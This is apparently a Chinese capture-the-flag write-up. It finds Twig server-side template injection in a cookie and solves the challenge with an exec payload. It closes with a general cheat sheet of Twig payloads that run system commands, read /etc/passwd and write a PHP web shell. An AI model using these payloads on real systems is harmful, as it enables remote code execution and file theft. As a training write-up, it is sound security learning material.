 ![image-20240217150635267](https://i-blog.csdnimg.cn/blog_migrate/8e66b74012c7f22c38bd8737cc11f697.png)

题目提到cookie，抓包看看

![image-20240217151048006](https://i-blog.csdnimg.cn/blog_migrate/2ac5f42936574c874dde3793d434efda.png)

猜测是ssti注入

输入user={{7\*'7'}}测试一下，确实存在（注意cookie的user前面的连接是;）

![image-20240217151205259](https://i-blog.csdnimg.cn/blog_migrate/b0e4d932f8e01ada9f4db9266acd27de.png)

同时也判断了ssti注入的类型

输入{{7\*‘7’}}，返回49表示是 Twig 模块

输入{{7\*‘7’}}，返回7777777表示是 Jinja2 模块

![image-20240217151419198](https://i-blog.csdnimg.cn/blog_migrate/1d8473c711d0f200f23caa8bd351995b.png)

模板注入是Twig注入

所以是有固定的payload

```
{{\_self.env.registerUndefinedFilterCallback("exec")}}{{\_self.env.getFilter("id")}}
```

同样的方法，在cookie输入

![image-20240217151635539](https://i-blog.csdnimg.cn/blog_migrate/e87a1d0d483259a5a27ac96a0defd804.png)

查看flag

```
{{\_self.env.registerUndefinedFilterCallback("exec")}}{{\_self.env.getFilter("cat /flag")}}
```

![image-20240217151713479](https://i-blog.csdnimg.cn/blog_migrate/4753db4b60a574ad8a99b8704c0de84e.png)

twig常用的注入payload：

```handlebars
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

